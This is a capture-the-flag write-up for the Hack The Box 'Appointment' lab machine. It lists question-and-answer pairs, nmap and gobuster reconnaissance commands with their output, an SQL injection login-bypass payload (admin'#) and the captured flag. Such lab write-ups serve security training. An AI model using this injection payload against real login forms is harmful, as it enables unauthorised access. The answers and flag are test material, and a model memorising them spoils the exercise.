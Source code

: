 ```yaml
---
title: 🔵 HTB / Starting Point / Appointment
date: 2023-08-17
categories: [HackTheBox, Machines]
tags: [nmap, gobuster, sqli]
---
```


What does the acronym SQL stand for?

`Structured Query Language`

What is one of the most common type of SQL vulnerabilities?

`sql injection`

What is the 2021 OWASP Top 10 classification for this vulnerability?

`A03:2021-Injection`

What does Nmap report as the service and version that are running on port 80 of the target?

`Apache httpd 2.4.38 ((Debian))`

What is the standard port used for the HTTPS protocol?

`443`

What is a folder called in web-application terminology?

`directory`

What is the HTTP response code is given for 'Not Found' errors?

`404`

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

`dir`

What single character can be used to comment out the rest of a line in MySQL?

`#`

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

`Congratulations`

Submit root flag

```bash
$ nmap -sV -p- <ip>
...
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

$ gobuster dir -u <ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/images               (Status: 301) [Size: 317] [--> http://10.129.146.191/images/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.146.191/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.146.191/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.146.191/vendor/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.146.191/fonts/]
/server-status        (Status: 403) [Size: 279]
...

$ firefox <ip>:80 &
```

login: `admin'#`

password: `abc`

flag: `e3d0796d002a446c0e622226f42e9672`
